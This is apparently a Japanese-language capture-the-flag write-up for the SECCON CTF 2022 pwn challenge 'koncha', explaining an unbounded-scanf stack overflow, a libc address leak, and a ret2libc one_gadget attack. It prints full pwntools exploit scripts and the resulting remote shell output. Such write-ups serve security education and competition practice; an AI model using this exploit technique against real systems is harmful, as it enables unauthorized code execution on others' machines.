 ```yaml
---
weight: 1
bookFlatSection: true
title: "SECCON CTF 2022 Writeup 'koncha'[pwn]"
---
```


# SECCON CTF 2022 Writeup 'koncha'[pwn]

2022年11月に開催されたSECCON2022予選に参加しました．
おそらく日本で一番有名かつ大規模なCTF大会ということもあり，非常に面白い問題（そして難しい問題）が多く，
競技時間の24時間は必死に問題に取り組むことができ楽しかったです．

本記事では，競技時間中にFLAGを見つけることができたpwnの問題についてメモを残します．


## 問題
{{< img400x src="seccon2022-koncha.png" alt="koncha" >}}


tar.gzファイルを展開すると，問題のC言語ファイル，バイナリ，libc，ローカル実行環境構築用のDockerfileなどがあります．

## 解法
C言語ファイルの重要な部分を抜き出すと，以下のようになります．

`name`, `country`変数を定義して，1回目のscanfでnameに入力値を格納，printfでnameを出力．
2回目のscanfでcountryに入力値を格納，printfでcountryを出力するという非常にシンプルなプログラムです．
```c
int main() {
  char name[0x30], country[0x20];

  scanf("%[^\n]s", name);
  printf("Nice to meet you, %s!\n", name);
  scanf("%s", country);
  printf("Wow, %s is such a nice country!\n", country);
  return 0;
}
```

また，各種セキュリティ機構は以下のようになっています．64bitでcanaryなし，PIE (Position Independent Executables) ありです．
```bash
$ checksec ./chall
[*] 'chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

このプログラムの脆弱性は，2回行われるscanfに入力文字数の制限がないことです．
これにより，スタックオーバーフローを起こすことができます．

exploitの方針としては，以下のようになります．
1. 1回目のscanfとprintfでlibcアドレスのリークを行う．
2. 2回目のscanfでスタックオーバーフローの脆弱性を用いてmain関数のリターンアドレスを書き換えて，one gadgetに飛ばす．


libcアドレスのリークについては，1回目の入力で何も入力せずにEnterキーを押すと，スタック上に配置されているアドレスらしき文字列が表示されました．
（?Rhの部分がリークしているアドレスです．ASCIIで対応する文字がないので文字化けみたいになってますね）
```bash
./chall
Hello! What is your name?

Nice to meet you, �Rh!
```

表示された文字は，16進数で表現すると`0x7ffff7fab2e8`のようなアドレスになっています．（実行するたびに値は変わります．）
GDBで見てみると，このアドレスはどうやらlibcの`__exit_funcs_lock`という部分を指しているようです．（データ領域かな？）

```bash
gdb-peda$ pdisas 0x00007ffff7fab2e8
   0x00007ffff7fab2e8 <__exit_funcs_lock+0>:	add    BYTE PTR [rax],al
   0x00007ffff7fab2ea <__exit_funcs_lock+2>:	add    BYTE PTR [rax],al
   0x00007ffff7fab2ec:	add    BYTE PTR [rax],al
   0x00007ffff7fab2ee:	add    BYTE PTR [rax],al
   0x00007ffff7fab2f0 <__wctomb_state+0>:	add    BYTE PTR [rax],al
   0x00007ffff7fab2f2 <__wctomb_state+2>:	add    BYTE PTR [rax],al
   0x00007ffff7fab2f4 <__wctomb_state+4>:	add    BYTE PTR [rax],al
   0x00007ffff7fab2f6 <__wctomb_state+6>:	add    BYTE PTR [rax],al
   0x00007ffff7fab2f8:	add    BYTE PTR [rax],al
   0x00007ffff7fab2fa:	add    BYTE PTR [rax],al
   0x00007ffff7fab2fc:	add    BYTE PTR [rax],al
   0x00007ffff7fab2fe:	add    BYTE PTR [rax],al
   0x00007ffff7fab300 <__libc_drand48_data+0>:	add    BYTE PTR [rax],al
   0x00007ffff7fab302 <__libc_drand48_data+2>:	add    BYTE PTR [rax],al
   0x00007ffff7fab304 <__libc_drand48_data+4>:	add    BYTE PTR [rax],al
   0x00007ffff7fab306 <__libc_drand48_data+6>:	add    BYTE PTR [rax],al
```

リークできたアドレスから，libcアドレスのベースを求めて，さらにone gadgetのアドレスも計算しておきます．


ここまでのコードを以下に書きます


```python
from pwn import *  # pwntools

# ↓gdbでexit_functions_lockとlibcのベースアドレスをメモして，オフセットを計算しとく
offset_exit_functions_lock = 0x7ffff7fab2e8 - 0x7ffff7dba000
# ↓one_gadgetコマンドで取得
offset_og = 0xe3b01 


sock = process('./bin/chall')

# exit_functions_lockアドレスをリーク
text = sock.recvline() # b'Hello! What is your name?\n'
sock.sendline(b"")
text = sock.recvuntil("Nice to meet you, ") # Nice to meet you, 

# リークしたアドレスを頑張ってintに変換
low = sock.recv(4)
high = sock.recv(2) + b'\x00\x00'
exit_funcs_lock = unpack(low) + unpack(high) * 0x100000000

libc_base = exit_funcs_lock - offset_exit_functions_lock    # libcベースアドレスの計算
og_addr = libc_base + offset_og                             # one gadgetアドレスの計算

# デバッグのために，リークしたアドレス，計算したアドレスを表示
print("exit_funcs_lock", hex(exit_funcs_lock))
print("libc_base", hex(libc_base))
print("libc_one_gadget", hex(og_addr))
```

one gadgetアドレスがわかったので，後はret2libcするだけです．

2回目のscanfでスタックオーバーフローができるので，main関数のリターンアドレスに，先ほど計算したone gadgetアドレスを入れます．
scanfで入力した文字列の先頭から，main関数のリターンアドレスまでのオフセットは88バイトだったので，88バイト分適当な文字を入れてパディングしています．

最終的なexploitコードは以下のようになります．



```python
from pwn import *

offset_exit_functions_lock = 0x7efec96482e8 - 0x7efec9457000
offset_og = 0xe3b01

sock = remote('koncha.seccon.games', 9001)

text = sock.recvline() # b'Hello! What is your name?\n'
sock.sendline(b"")
text = sock.recvuntil("Nice to meet you, ")
low = sock.recv(4)
high = sock.recv(2) + b'\x00\x00'
exit_funcs_lock = unpack(low) + unpack(high) * 0x100000000
libc_base = exit_funcs_lock - offset_exit_functions_lock
og_addr = libc_base + offset_og
print("exit_funcs_lock", hex(exit_funcs_lock))
print("libc_base", hex(libc_base))
print("libc_one_gadget", hex(og_addr))


# 2回目のscanfでret書き換え
payload = b"A" * 88
payload += p64(og_addr)
sock.sendline(payload)

sock.interactive()
```

exploitコードの接続先をremoteに置き換えて実行すると，問題サーバ側でシェルが起動して対話形式になります．

`ls`コマンドを打つと`flag-50d....txt`が表示されているので，`cat`コマンドでファイルの中身を表示すると，FLAGを見つけることができました．

```bash
$ python3 solve.py
[+] Opening connection to koncha.seccon.games on port 9001: Done
b'Hello! What is your name?\n'
b'Nice to meet you, '
exit_funcs_lock 0x7f58018cf2e8
libc_base 0x7f58016de000
libc_one_gadget 0x7f58017c1b01
[*] Switching to interactive mode
!
Which country do you live in?
Wow, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x1b|X\x7f is such a nice country!
Itls
chall
flag-50d05c4f3e767dfc58f5cde347c36370.txt
$
```